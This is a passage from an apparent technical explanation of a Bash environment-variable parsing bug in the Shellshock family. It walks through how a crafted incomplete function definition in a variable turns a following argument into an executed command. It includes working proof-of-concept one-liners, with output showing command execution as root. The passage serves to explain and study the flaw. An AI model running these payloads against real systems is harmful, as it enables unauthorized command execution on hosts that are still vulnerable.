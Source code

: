 The first ``echo`` is the command and the rest its arguments: it
has nothing weird on its own.

The ``() { function a a>\`` part makes a *incomplete* function
definition, in particular
the fragment ``a>\`` will redirect to a unspecified file the output
and Bash will complete the definition with the *next input*.

And here is where the magic happens.

The first ``echo`` will *not* be the command but the name of the file
to redirect the output.

The rest of the input ``echo vuln`` will be interpreted as a full
command: that means that the first argument is converted to
the name of a command.

```shell
$ X='() { function a a>\' bash -c "echo echo vuln"
<...>

$ cat echo
vuln

```



Instead of printing the literal ``"echo vuln"`` string and cat-ing
an inexistent file ``"echo"``,
a vulnerable Bash will execute the first argument and it will redirect
its output to a file named ``"echo"``.

Here is another example.

```shell
$ bash -c 'echo $0 $1 | hd' A B
00000000  41 20 42 0a                                       |A B.|
00000004

```

If the attacker controls ``$0`` and ``$1``, he can trigger the vuln
setting ``$0`` to the command of his desire and ``$1`` to ``#`` to comment out
the pipe (the arguments must be without quotes, ``"$1"`` will not work).

```shell
$ X='() { function a a>\' bash -c "echo id # | hd"; cat echo
<...>
uid=0(root)<...>

```


Another example, a shorter variant with less runes needed:

```shell
$ X='() { (a)=>\' bash -c "echo id"; cat echo
<...>
uid=0(root)<...>

```
